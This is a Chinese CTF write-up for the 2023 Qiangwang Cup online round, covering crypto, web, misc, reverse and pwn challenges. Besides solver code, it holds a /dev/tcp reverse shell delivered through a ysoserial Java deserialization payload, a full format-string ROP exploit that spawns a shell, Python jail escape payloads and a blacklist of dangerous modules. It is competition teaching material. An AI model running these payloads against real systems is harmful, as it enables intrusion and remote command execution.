





# 2023 强网杯 S7 线上赛 WriteUp - 先知社区

2023 强网杯 S7 线上赛 WriteUp

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172223-9725e79e-b387-1.png)

## 引言

**2023 第七届强网杯全国网络安全挑战赛**

又是一年强网杯，不过从暑期一直推迟到了 12 月。

今年继续和校队的师傅们一起打了线上赛，感觉这比赛越来越卷了，而且 py 过于严重，题目都被 py 烂了没啥分了，摸了。

这篇 writeup 是和队友们一起写的，感谢学弟们能一起来打比赛，应该是喵喵的最后一次强网杯了吧。

## Crypto

### not only rsa

> 这个模数好像很不安全，那你能解密出 flag 吗
> 
> [附件下载](https://pan.baidu.com/s/1JI7XQd1hpc3VS-EPZIqGOg) 提取码（GAME）[备用下载](https://share.weiyun.com/hksGu5nu)

可以 AMM + hensel's lifting，但是 sage 直接 nth\_root 就可以搞定

```bash
from Crypto.Util.number import *

p = 91027438112295439314606669837102361953591324472804851543344131406676387779969
n = 6249734963373034215610144758924910630356277447014258270888329547267471837899275103421406467763122499270790512099702898939814547982931674247240623063334781529511973585977522269522704997379194673181703247780179146749499072297334876619475914747479522310651303344623434565831770309615574478274456549054332451773452773119453059618433160299319070430295124113199473337940505806777950838270849
e = 641747
c = 730024611795626517480532940587152891926416120514706825368440230330259913837764632826884065065554839415540061752397144140563698277864414584568812699048873820551131185796851863064509294123861487954267708318027370912496252338232193619491860340395824180108335802813022066531232025997349683725357024257420090981323217296019482516072036780365510855555146547481407283231721904830868033930943

phi = p^4*(p-1)
res = Zmod(p^5)(c).nth_root(e, all=True)
for i in res:
    temp = long_to_bytes(int(i))
    if(b"flag" in temp):
        print(temp)

#flag{c19c3ec0-d489-4bbb-83fc-bc0419a6822a}
```

### guess game

> nc 47.97.69.130 22333
> 
> [附件下载](https://pan.baidu.com/s/1xZxP9eJ99fpkUc3Awu7Bxg) 提取码（GAME）[备用下载](https://share.weiyun.com/Hx0T04i3)

猜比特的游戏，80 次猜中 56 次以上就可以，算二项分布其实概率也有万分之一，用生日攻击交互一万次就有大概率得到 flag，运气好就根本不需要这么多次。

```bash
from Crypto.Util.number import *
from pwn import *

#context.log_level = 'debug'

while(1):
    r = remote("47.97.69.130",22333)
    r.sendline(b"icq4504836a0c0b14a1083d18bfb932f")
    r.sendline(b"2")

    count = 0
    for i in range(80):
        r.recvuntil(b">")
        r.sendline(b"0")
        temp = r.recvline()
        if(b"Right" in temp):
            count += 1
    print(count)
    if(count > 56):
        print(r.recvline())
        exit()
    r.close()

#flag{be050d3fe312654d40d4ebb60d667c22}
```

## Web

### Happygame

> 一个 web 服务。

看报错搜索感觉是 grpc 协议，尝试收集了一波信息

```bash
docker pull fullstorydev/grpcurl
```

发现有一个反序列化接口，尝试 Python 反序列化，根据报错 `invaild stream header`

```bash
# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 list
grpc.reflection.v1alpha.ServerReflection
helloworld.Greeter

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 list helloworld.Greeter
helloworld.Greeter.ProcessMsg
helloworld.Greeter.SayHello

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 helloworld.Greeter.SayHello
{
  "message": "Hello "
}

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 helloworld.Greeter.ProcessMsg
ERROR:
  Code: Unknown
  Message:

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 describe helloworld.Greeter.ProcessMsg
helloworld.Greeter.ProcessMsg is a method:
rpc ProcessMsg ( .helloworld.Request ) returns ( .helloworld.Reply );

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 describe helloworld.Greeter.SayHello
helloworld.Greeter.SayHello is a method:
rpc SayHello ( .helloworld.HelloRequest ) returns ( .helloworld.HelloReply );

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 describe helloworld.HelloRequest
helloworld.HelloRequest is a message:
message HelloRequest {
  string name = 1;
}

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 describe helloworld.HelloReply
helloworld.HelloReply is a message:
message HelloReply {
  string message = 1;
}

# docker run fullstorydev/grpcurl -plaintext 8.147.135.248:28234 describe helloworld.Request
helloworld.Request is a message:
message Request {
  bytes serializeData = 1;
}

# docker run fullstorydev/grpcurl -plaintext -d '{"serializeData":"CIu3vfXb1TcRofgx5tYcyEA="}' 39.106.48.123:39628 helloworld.Greeter.ProcessMsg
{
  "message": "invalid stream header: 088BB7BD"
}
```

搜索猜测应该是 Java 的反序列化

什么信息都没有，使用 `yoserial-all.jar` 打了 CC5，发现能通

```bash
echo 'bash -i >& /dev/tcp/your_ip/your_port 0>&1' | base64

# xxx 为上一条命令的输出
java -jar ysoserial-all.jar CommonsCollections5 'bash -c {echo,xxxxxx}|{base64,-d}|{bash,-i}'|base64

# xxx 为上一条命令的输出（注意删除 base64 输出自带的\n）
docker run fullstorydev/grpcurl -plaintext -d '{"serializeData":"xxx"}' 39.106.48.123:39628 helloworld.Greeter.ProcessMsg
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172224-981e4e48-b387-1.png)

## Misc

### 签到 & 问卷题

按照题意完成即可

### 谍影重重 2.0

> 小明是某间谍组织的一员，他终日监听着我国某重点军事基地的飞行动态，妄图通过分析参数找到我国飞的最快的飞机。我国费尽千辛万苦抓住了他，并在他的电脑上找到了一段他监听的信息，请分析出这段信息中飞的最快的飞机。
> 
> 格式为 flag{md5(ICAO CODE of the fastest plane)}
> 
> 附件内所涉及的信息均为公开信息，题目描述也均为虚构，切勿当真
> 
> [附件下载](https://pan.baidu.com/s/1DoZaW2W6Ak5g_3swfofRIA) 提取码（GAME）[备用下载](https://share.weiyun.com/EAnlokHg)

根据题意，盲猜是 ADS-B 信号

先把 tcp payload 提取出来

```bash
tshark -T fields -r attach.pcapng -e tcp.payload > 1.txt
```

参考 [https://mode-s.org/decode/content/ads-b/1-basics.html](https://mode-s.org/decode/content/ads-b/1-basics.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172226-98f0a88e-b387-1.png)

然后用 [https://github.com/junzis/pyModeS](https://github.com/junzis/pyModeS)

分析一下里面的数据

```bash
pip3 install pyModeS
```

不是所有报文里都有速度信息，这里直接 try 捕获一下完事了（

**exp:**

```bash
import pyModeS as pms

with open('1.txt', encoding='utf-8') as f:
    data = f.read()
data = [s for s in data.splitlines() if s != '']
print(data)

v_max = [0, '']
for d in data:
    if len(d) != 46:
        continue
    msg = d[18:]
    icao = pms.icao(msg)
    print(icao)
    pms.tell(msg)
    # expecting 4<TC<9 or TC=19
    try:
        v = pms.adsb.velocity(msg)
        print(v)
        if v[0] > v_max[0]:
            v_max = [v[0], icao]
    except:
        pass
    print('===============')

print(v_max)
# [371, '79a05e']

from hashlib import md5
# print(md5(v_max[1].encode()).hexdigest())
# # 0832f82e9171df7c80e4c6225946f5c7
print(md5('79A05E'.encode()).hexdigest())
# 4cf6729b9bc05686a79c1620b0b1967b
```

试了下小写的不行，大写的 79A05E 才对

### Pyjail ! It's myFilter !!!

> 你能否能帮助她绕过 filter 呢？是时候拿出真本事！提示：本题需要一定的成功率，如果你认为你的 payload 能够工作，请多尝试几遍！

跟今年国赛某道题蛮像的

```bash
{print(open("proc/environ/1").read())}
```

### Pyjail ! It's myRevenge !!!

源码

```bash
import code, os, subprocess
import pty
def blacklist_fun_callback(*args):
    print("Player! It's already banned!")

pty.spawn = blacklist_fun_callback
os.system = blacklist_fun_callback
os.popen = blacklist_fun_callback
subprocess.Popen = blacklist_fun_callback
subprocess.call = blacklist_fun_callback
code.interact = blacklist_fun_callback
code.compile_command = blacklist_fun_callback

vars = blacklist_fun_callback
attr = blacklist_fun_callback
dir = blacklist_fun_callback
getattr = blacklist_fun_callback
exec = blacklist_fun_callback
__import__ = blacklist_fun_callback
compile = blacklist_fun_callback
breakpoint = blacklist_fun_callback

del os, subprocess, code, pty, blacklist_fun_callback
input_code = input("Can u input your code to escape > ")

blacklist_words_var_name_fake_in_local_real_in_remote = [
    "subprocess",
    "os",
    "code",
    "interact",
    "pty",
    "pdb",
    "platform",
    "importlib",
    "timeit",
    "imp",
    "commands",
    "popen",
    "load_module",
    "spawn",
    "system",
    "/bin/sh",
    "/bin/bash",
    "flag",
    "eval",
    "exec",
    "compile",
    "input",
    "vars",
    "attr",
    "dir",
    "getattr"
    "__import__",
    "__builtins__",
    "__getattribute__",
    "__class__",
    "__base__",
    "__subclasses__",
    "__getitem__",
    "__self__",
    "__globals__",
    "__init__",
    "__name__",
    "__dict__",
    "._module",
    "builtins",
    "breakpoint",
    "import",
]

def my_filter(input_code):
    for x in blacklist_words_var_name_fake_in_local_real_in_remote:
        if x in input_code:
            return False
    return True

while '{' in input_code and '}' in input_code and input_code.isascii() and my_filter(input_code) and "eval" not in input_code and len(input_code) < 65:
    input_code = eval(f"f'{input_code}'")
else:
    print("Player! Please obey the filter rules which I set!")
```

海象表达式，通过写文件绕过长度限制

exp:

```bash
{open("A","w").write("{(a:=().__cla"+"ss__.__bases__[0]")}
{open("A","a").write(",open(chr(66)).read())[1]}")}
{open("B","w").write("{(a:=a.__subcl"+"asses__()[104]()")}
{open("B","a").write(",open(chr(67)).read())[1]}")}
{open("C","w").write("{(a:=a.load_mo"+"dule")}
{open("C","a").write(",open(chr(68)).read())[1]}")}
{open("D","w").write("{(a:=a(chr(111)+chr(115))")}
{open("D","a").write(",open(chr(69)).read())[1]}")}
{open("E","w").write("{(a:=a.listd"+"ir()[6]")}
{open("E","a").write(",open(chr(70)).read())[1]}")}
{open("F","w").write("{print(open(a).read())}")}
{(my_filter:=lambda x:True,open("A").read())[1]}

print(open(().__class__.__bases__[0].__subclasses__()[104]().load_module(chr(111)+chr(115)).listdir()[6]).read())
```

其实还可以直接把 `my_filter` `len` 这些函数给覆盖掉，直接绕过

### ezfuzz

> 以下任一个都可以
> 
> nc 101.200.122.251 12199
> 
> nc 101.200.122.251 12188
> 
> nc 101.200.122.251 12177
> 
> nc 120.24.69.11 12199
> 
> [附件下载](https://pan.baidu.com/s/1ypdoeaeWETKQXYyQb0XcTw) 提取码（GAME）[备用下载](https://share.weiyun.com/8Anohkp7)

用 fuzz 的思想用随机字符串爆破，获取的 coverage 的 1 数目每多一个就多了一位确定的字符

```bash
from pwn import *
import random

sh = remote("120.24.69.11",12199)
def generate_ascii_fuzz_bin(length, min_ascii=0, max_ascii=255):
    bin =b''
    for _ in range(length):
        bin+=p8(random.randint(min_ascii, max_ascii))
    return bin

def countOne(str):
    count = 0
    for i in str:
        if i == '1': count+=1
    return count


s       = lambda data               :sh.send(data)
sa      = lambda text, data         :sh.sendafter(text, data)
sl      = lambda data               :sh.sendline(data)
sla     = lambda text, data         :sh.sendlineafter(text, data)
r       = lambda num                :sh.recv(num)
ru      = lambda text               :sh.recvuntil(text)
rl      = lambda                    :sh.recvline()
uu32    = lambda                    :u32(sh.recvuntil(b"\xf7")[-4:].ljust(4, b"\x00"))
uu64    = lambda                    :u64(sh.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg      = lambda s                  :sh.success('\033[32m%s -> 0x%x\033[0m' % (s, eval(s)))
lgl     = lambda s, value           :sh.success('\033[32m%s -> 0x%x\033[0m' % (s, value))
# b'x\xf1O\x97\x0b\xe8\xffo.\x00' 110000010
# b'\x1c@\xd4@bn\xc9V\xe4\x00' 110010000

def search():
    for i in range(0xfffff):
        payload = generate_ascii_fuzz_bin(2)+b'qwbGood\0'
        sla(b"Enter a string (should be less than 10 bytes): ",payload)
        print(rl(),payload)
    # for i in range(0xfffff):
    #     payload = generate_ascii_fuzz_bin(2)+b'q'+generate_ascii_fuzz_bin(1)+b'bGood\0'
    #     sla(b"Enter a string (should be less than 10 bytes): ",payload)
    #     print(rl())
    #     newcoverage = r(9).decode("utf-8")
    #     #print(i,payload,newcoverage)
    #     if countOne(newcoverage[2:])>6:
    #         print(i,payload,newcoverage)
    #         break


def test(): 
    base = [ord(i) for i in '|\x14qHbGood\x00']
    print(base)
    for i in range(9):
        payload = b''
        for j,k in enumerate(base):
            if i==j:
                payload+=p8(k-1)
                print(i,j,p8(k))
            else:
                payload+=p8(k)
        sla(b"Enter a string (should be less than 10 bytes): ",payload)
        ru(b"Here is your code coverage: ")
        newcoverage = r(9).decode("utf-8")
        print(payload,newcoverage)

search()
```

## Reverse

### ezre

> flag 格式为 flag{xxxxxxxxxxxxxxx}
> 
> [附件下载](https://pan.baidu.com/s/1Sjul3rOaQEwg5Ob0NrctKw) 提取码（GAME）[备用下载](https://share.weiyun.com/OPz0jqmf)

解开 ollvm，对照原算法写出逆向版本即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172228-9a61593e-b387-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172230-9b38cf4a-b387-1.png)

```bash
key = b''.join(int.to_bytes(x, 8, 'little') for x in [0xEFCDAB8967452301, 0xEFCDAB8967452301])
out = b''.join(int.to_bytes(x, 8, 'little') for x in [0x7C88631647197506, 0x4A0D7D3FFF55668B, 0xDEC2E93F384ED2F5, 0x3C1FB1746F7F7CDB])

mp1 = [
    0xD6, 0x90, 0xE9, 0xFE, 0xCC, 0xE1, 0x3D, 0xB7, 0x16, 0xB6, 
    0x14, 0xC2, 0x28, 0xFB, 0x2C, 0x05, 0x2B, 0x67, 0x9A, 0x76, 
    0x2A, 0xBE, 0x04, 0xC3, 0xAA, 0x44, 0x13, 0x26, 0x49, 0x86, 
    0x06, 0x99, 0x9C, 0x42, 0x50, 0xF4, 0x91, 0xEF, 0x98, 0x7A, 
    0x33, 0x54, 0x0B, 0x43, 0xED, 0xCF, 0xAC, 0x62, 0xE4, 0xB3, 
    0x1C, 0xA9, 0xC9, 0x08, 0xE8, 0x95, 0x80, 0xDF, 0x94, 0xFA, 
    0x75, 0x8F, 0x3F, 0xA6, 0x47, 0x07, 0xA7, 0xFC, 0xF3, 0x73, 
    0x17, 0xBA, 0x83, 0x59, 0x3C, 0x19, 0xE6, 0x85, 0x4F, 0xA8, 
    0x68, 0x6B, 0x81, 0xB2, 0x71, 0x64, 0xDA, 0x8B, 0xF8, 0xEB, 
    0x0F, 0x4B, 0x70, 0x56, 0x9D, 0x35, 0x1E, 0x24, 0x0E, 0x5E, 
    0x63, 0x58, 0xD1, 0xA2, 0x25, 0x22, 0x7C, 0x3B, 0x01, 0x21, 
    0x78, 0x87, 0xD4, 0x00, 0x46, 0x57, 0x9F, 0xD3, 0x27, 0x52, 
    0x4C, 0x36, 0x02, 0xE7, 0xA0, 0xC4, 0xC8, 0x9E, 0xEA, 0xBF, 
    0x8A, 0xD2, 0x40, 0xC7, 0x38, 0xB5, 0xA3, 0xF7, 0xF2, 0xCE, 
    0xF9, 0x61, 0x15, 0xA1, 0xE0, 0xAE, 0x5D, 0xA4, 0x9B, 0x34, 
    0x1A, 0x55, 0xAD, 0x93, 0x32, 0x30, 0xF5, 0x8C, 0xB1, 0xE3, 
    0x1D, 0xF6, 0xE2, 0x2E, 0x82, 0x66, 0xCA, 0x60, 0xC0, 0x29, 
    0x23, 0xAB, 0x0D, 0x53, 0x4E, 0x6F, 0xD5, 0xDB, 0x37, 0x45, 
    0xDE, 0xFD, 0x8E, 0x2F, 0x03, 0xFF, 0x6A, 0x72, 0x6D, 0x6C, 
    0x5B, 0x51, 0x8D, 0x1B, 0xAF, 0x92, 0xBB, 0xDD, 0xBC, 0x7F, 
    0x11, 0xD9, 0x5C, 0x41, 0x1F, 0x10, 0x5A, 0xD8, 0x0A, 0xC1, 
    0x31, 0x88, 0xA5, 0xCD, 0x7B, 0xBD, 0x2D, 0x74, 0xD0, 0x12, 
    0xB8, 0xE5, 0xB4, 0xB0, 0x89, 0x69, 0x97, 0x4A, 0x0C, 0x96, 
    0x77, 0x7E, 0x65, 0xB9, 0xF1, 0x09, 0xC5, 0x6E, 0xC6, 0x84, 
    0x18, 0xF0, 0x7D, 0xEC, 0x3A, 0xDC, 0x4D, 0x20, 0x79, 0xEE, 
    0x5F, 0x3E, 0xD7, 0xCB, 0x39, 0x48
]

mp2 = [
    462357,
    472066609,
    943670861,
    1415275113,
    1886879365,
    2358483617,
    2830087869,
    3301692121,
    3773296373,
    4228057617,
    404694573,
    876298825,
    1347903077,
    1819507329,
    2291111581,
    2762715833,
    3234320085,
    3705924337,
    4177462797,
    337322537,
    808926789,
    1280531041,
    1752135293,
    2223739545,
    2695343797,
    3166948049,
    3638552301,
    4110090761,
    269950501,
    741554753,
    1213159005,
    1684763257
]

def byte2int(b):
    ret = 0
    for i in range(4):
        ret |= b[i] << (24 - i * 8)
    return ret

def int2byte(n):
    b = []
    for i in range(4):
        b.append((n >> (24 - i * 8)) & 0xff)
    return b

def rotate(n, bit):
    return (n >> (32 - bit)) ^ (n << bit) & 0xffffffff

s = [byte2int(key[i * 4 :]) for i in range(4)]
v15 = [0 for _ in range(36)]
v15[0] = s[0] ^ 0xA3B1BAC6 & 0xffffffff
v15[1] = s[1] ^ 0x56AA3350 & 0xffffffff
v15[2] = s[2] ^ 0x677D9197 & 0xffffffff
v15[3] = s[3] ^ 0xB27022DC & 0xffffffff
for i in range(32):
    v = mp2[i] ^ v15[i + 3] ^ v15[i + 2] ^ v15[i + 1] & 0xffffffff
    tr = byte2int([mp1[x] for x in int2byte(v)])
    tr = tr ^ rotate(tr, 13) ^ rotate(tr, 23)
    v15[i + 4] = v15[i] ^ tr

v14 = [0 for _ in range(36)]
v16 = []
for i in range(len(out) // 16):
    v14[35] = byte2int(out[16 * i :])
    v14[34] = byte2int(out[16 * i + 4 :])
    v14[33] = byte2int(out[16 * i + 8 :])
    v14[32] = byte2int(out[16 * i + 12 :])
    for m in reversed(range(32)):
        v = v15[m + 4] ^ v14[m + 3] ^ v14[m + 2] ^ v14[m + 1] & 0xffffffff
        tr = byte2int([mp1[x] for x in int2byte(v)])
        tr = tr ^ rotate(tr, 2) ^ rotate(tr, 10) ^ rotate(tr, 18) ^ rotate(tr, 24) & 0xffffffff
        v14[m] = v14[m + 4] ^ tr
    v16 += int2byte(v14[0])
    v16 += int2byte(v14[1])
    v16 += int2byte(v14[2])
    v16 += int2byte(v14[3])

print(bytes(v16))
```

## 强网先锋

### 石头剪刀布

> 好像这个预测模型有点问题？？？？？
> 
> （这题请用 nc 来直接访问）
> 
> [附件下载](https://pan.baidu.com/s/1G48I5En1EmmsXodJ2zFm-w) 提取码（GAME）[备用下载](https://share.weiyun.com/huNKdDbn)

使用五个出拳的结果来确定第六个即可，生成一个这样的序列就可以完成任务。

```bash
from pwn import *

player_move = [0, 2, 1, 0, 2, 1, 0, 0, 2, 2, 1, 1, 0, 1, 0, 1, 2, 2, 2, 0, 1, 0, 2, 0, 2, 1, 0, 1, 1, 0, 2, 1, 0, 2, 2, 1, 2, 2, 0, 0, 0, 1, 0, 1, 0, 1, 1, 2, 0, 1, 1, 2, 1, 2, 2, 0, 2, 2, 0, 0, 0, 1, 1, 1, 2, 2, 0, 1, 2, 2, 0, 2, 0, 2, 1, 0, 0, 0, 1, 1, 1, 2, 2, 0, 1, 0, 1, 1, 2, 2,1,1,0,1,1,1,2,1,0]

p = remote('8.147.133.95',34553)

for i in range(100):
    p.recvuntil("：")
    player_choice = player_move[i]
    p.sendline(str(player_choice))

    for lines in p.recvlines(5):
        if ('260' in lines.decode()) or ('261' in lines.decode()) or ('262' in lines.decode()):
            print(p.recvlines(1)[0].decode())

        print(lines.decode())
```

### Speedup

> Just calculate a factorial.
> 
> [附件下载](https://pan.baidu.com/s/1p7eW8UAy_bgxJv6LjgISIQ) 提取码（GAME）[备用下载](https://share.weiyun.com/x3vwa5T6)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172231-9c4dc570-b387-1.png)

算一下 `f((2^0)!)`、`f((2^1)!)`、`f((2^2)!)` ......

上 OEIS 找规律

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172232-9cc37c98-b387-1.png)

```bash
import hashlib

def factorial(n):
    res = 1
    for i in range(1, n + 1):
        res *= i
    return res


def f(x):
    res=0
    while x:
        res += x % 10
        x //=10
    return res

# for i in [1, 2, 4, 8, 16, 32, 64, 128]:
#     res = f(factorial(i))
#     print(res,end=',')
# print()

ans = [1, 2, 6, 9, 63, 108, 324, 828, 1989, 4635, 10845, 24363, 54279, 118827, 258705, 565389, 1216134, 2611359, 5584518, 11875977, 25184205, 53209728, 112069377, 235502361, 493827687, 1033041267, 2156974227, 4495662081, 9355185828, 19437382512, 40329016200]
print(hex(ans[27]))
```

flag 试了好几次，最后直接找的一个在线加密器解决的

### ez\_fmt

> Easy format string. IP: 47.104.24.40 Port: 1337
> 
> [附件下载](https://pan.baidu.com/s/1YxAkJgxtVQf2Dz9fBdWuXw) 提取码（GAME）[备用下载](https://share.weiyun.com/x4v52Bnd)

格式化字符串 + ret2libc + ROP

格式化字符串偏移是 6

```bash
from pwn import *
import sys
from LibcSearcher import *

context(log_level='debug', arch='amd64', os='linux')

elf_file = './ez_fmt'

elf = ELF(elf_file)

def start():
    if len(sys.argv) == 1:
        p = process(elf_file)
    elif len(sys.argv) == 2:
        if sys.argv[1] == 'debug':
            p = process(elf_file)
            gdb.attach(p)
        if sys.argv[1] == 'remote':
            p = remote('47.104.24.40', '1337')
    return p

p = start()

p.recvuntil(b'There is a gift for you ')
addr_stack_buf = int(p.recvuntil(b'\n', drop=True).decode(), 16)
print(hex(addr_stack_buf))

addr_printf_ret = addr_stack_buf - 0x08

# leak the libc base
# edit the ret of printf
addr_read_got = elf.got['read']
payload = b'A' * 5 + b"%9$hhn" + b'%8$s'
payload = payload.ljust(0x10, b'a')
payload += p64(addr_read_got)
payload += p64(addr_printf_ret)
assert len(payload) <= 0x30
payload = payload.ljust(0x30, b'a')
p.send(payload)
p.recvuntil(b'AAAAA')
addr_read_libc = u64((p.recv(6).ljust(8, b'\x00')))
print(hex(addr_read_libc))

libc = LibcSearcher('read', addr_read_libc)
addr_libc_base = addr_read_libc - libc.dump('read')
addr_system = addr_libc_base + libc.dump('system')
addr_pop_rdi = addr_libc_base + 0x23b6a
addr_ret = addr_libc_base + 0x22679


# offset = [0xe3afe, 0xe3b01, 0xe3b04]
# one_gadgets = addr_libc_base + offset[2]
print("pop_rdi", hex(addr_pop_rdi))
print("main_re", hex(addr_libc_base + libc.dump("__libc_start_main") + 243))

change_byte = addr_pop_rdi
addr_write = addr_stack_buf + 0x60 + 0x08
# 修改返回地址
for i in range(4):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 /bin//sh 的地址
change_byte = addr_libc_base + 0x1b45bd
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 ret
change_byte = addr_ret
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 system
change_byte = addr_system
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

p.send(b'/bin/sh\x00'.ljust(0x30, b'a'))
p.interactive()
```

### ezre

> [附件下载](https://pan.baidu.com/s/1ieK13stXEcSqqhDLC1tLBw) 提取码（GAME）[备用下载](https://share.weiyun.com/8GkVSR5O)

解开 ollvm，对照原算法写出逆向版本即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240115172234-9d9efc6e-b387-1.png)

```bash
import ctypes
import base64

enc = [
    0x3A, 0x2C, 0x4B, 0x51, 0x68, 0x46, 0x59, 0x63, 0x24, 0x04, 
    0x5E, 0x5F, 0x00, 0x0C, 0x2B, 0x03, 0x29, 0x5C, 0x74, 0x70, 
    0x6A, 0x62, 0x7F, 0x3D, 0x2C, 0x4E, 0x6F, 0x13, 0x06, 0x0D, 
    0x06, 0x0C, 0x4D, 0x56, 0x0F, 0x28, 0x4D, 0x51, 0x76, 0x70, 
    0x2B, 0x05, 0x51, 0x68, 0x48, 0x55, 0x24, 0x19
]

s = list(b'l+USN4J5Rfj0TaVOcnzXiPGZIBpoAExuQtHyKD692hwmqe7/Mgk8v1sdCW3bYFLr')

key = []

libc = ctypes.cdll.LoadLibrary('libc.so.6')

def shuffle(l):
    libc.srand(l[2])
    for i in reversed(range(len(l))):
        idx = libc.rand() % (i + 1)
        l[i], l[idx] = l[idx], l[i]
    return l

def b64encode(b, k):
    trans = str.maketrans('ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/', bytes(k).decode())
    return [ord(x) for x in base64.b64encode(bytes(b)).decode().translate(trans)]

def b64decode(b, k):
    trans = str.maketrans(bytes(k).decode(), 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/')
    return list(base64.b64decode(bytes(b).decode().translate(trans)))

key.append(s[::])
for i in range(4):
    key.append(shuffle(key[-1][::]))

xor = [x ^ 0x27 for x in key[-1]][6:27]
for i in reversed(range(len(enc) - 1)):
    enc[i + 1] ^= enc[i]
v = 2023
for i in range(len(enc) - 1):
    if i % 3 == 1:
        v = (v + 5) % 20
        x = xor[v + 1]
    elif i % 3 == 2:
        v = (v + 7) % 19
        x = xor[v + 2]
    else:
        v = (v + 3) % 17
        x = xor[v + 3]
    enc[i] ^= x
for i in range(5):
    if i % 2 == 0:
        enc = b64decode(enc, key[-i - 1])
    else:
        enc = b64encode(enc, key[-i - 1])
print(bytes(enc))
```

### Babyre

> 输入的 flag 请加上 flag{}提交
> 
> [附件下载](https://pan.baidu.com/s/1ncvywuBl9Uh66Oe5c-6AWg) 提取码（GAME）[备用下载](https://share.weiyun.com/YSW0sBIm)

tea + tlscallback 修改密文密钥

```bash
#include <cstdio>
#include <cassert>

unsigned char key[] = {  0x31, 0xB7, 0xB6, 0x31 };

unsigned char enc[] = {
    0xE0, 0xF3, 0x21, 0x96, 0x97, 0xC7, 0xDE, 0x89, 0x9B, 0xCA, 
    0x62, 0x8D, 0xB0, 0x5D, 0xFC, 0xD2, 0x89, 0x55, 0x1C, 0x42, 
    0x50, 0xA8, 0x76, 0x9B, 0xEA, 0xB2, 0xC6, 0x2F, 0x7C, 0xCF, 
    0x11, 0xDE, 0
};

void decrypt(unsigned int *a1, unsigned int *a2)
{
    unsigned int v3 = 0x90508D47 - 33 * 4 * 0x77BF7F99;
    for (int i = 0; i < 33 * 4; i++)
    {
        v3 += 0x77BF7F99;
        *a2 -= (((32 * *a1) ^ (*a1 >> 4)) + *a1) ^ (v3 + key[(v3 >> 11) & 3]);
        *a1 -= (((32 * *a2) ^ (*a2 >> 4)) + *a2) ^ (v3 + key[v3 & 3]) ^ v3;
    }
    assert(v3 == 0x90508D47);
}

int main()
{
    for (int i = 0; i < 32; i++)
        enc[i] ^= i;
    for (int i = 0; i < 4; i++)
        key[i] = (key[i] >> 7) | (key[i] << 1);
    for (int i = 0; i < 4; i++)
        decrypt((unsigned int*)enc + 2 * i, (unsigned int*)enc + 2 * i + 1);
    printf("%s\n", enc);
    return 0;
}
```

### Trie

> Trie is so easy. IP: 47.104.150.173 Port: 1337
> 
> [附件下载](https://pan.baidu.com/s/1nrvi0bUPZbAqkCH5sF-moQ) 提取码（GAME）[备用下载](https://share.weiyun.com/8fMDFpBT)

end 数组溢出读取 secret

```bash
from pwn import *

context.log_level = 'debug'

def p(idx):
    a = remote('47.104.150.173', 1337)
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'0.0.0.0')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'255.255.255.255')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    ip = (1 << (32 - idx)) - 1
    str_ip = '.'.join(str((ip >> (24 - i * 8)) & 0xff) for i in range(4)).encode()
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', str_ip)
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'3')
    a.sendlineafter(b'4. Quit.', b'2')
    a.sendlineafter(b'IP:', str_ip)
    a.recvuntil(b'The next hop is ')
    data = a.recvline().decode()
    a.close()
    return ''.join(chr(int(x)) for x in reversed(data.split('.')))

flag = ''
for i in range(16):
    flag += p(i)
    print(flag)
```

## 小结

